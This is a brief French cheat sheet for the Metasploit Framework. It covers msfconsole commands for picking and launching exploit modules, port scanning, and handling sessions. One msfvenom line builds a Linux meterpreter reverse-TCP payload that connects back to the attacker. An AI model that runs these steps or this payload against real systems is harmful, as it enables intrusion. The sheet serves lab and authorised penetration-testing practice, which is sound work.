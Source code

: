 # ⚔️ Cheatsheet Metasploit Framework


---

## 🚀 Démarrage

```bash
msfconsole                # Lancer Metasploit
search <nom>              # Rechercher un exploit/module
use exploit/...           # Utiliser un module
set RHOST <IP>            # Cible
set LHOST <ton IP>        # Ton IP
set PAYLOAD <payload>     # Choix du payload
exploit / run             # Lancer l'exploit
```

---

## 🔍 Utilitaires intégrés

```bash
use auxiliary/scanner/portscan/tcp         # Scanner de ports
use auxiliary/scanner/http/title           # Récupérer titres de pages web
```

---

## 📂 Générer un payload

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<ton_ip> LPORT=4444 -f elf > shell.elf
```

---

## 🐚 Sessions

```bash
sessions -i <id>           # Interagir avec une session ouverte
background                 # Mettre en arrière-plan
```

---

> 💥 Toujours tester en environnement de lab ou légalement autorisé !
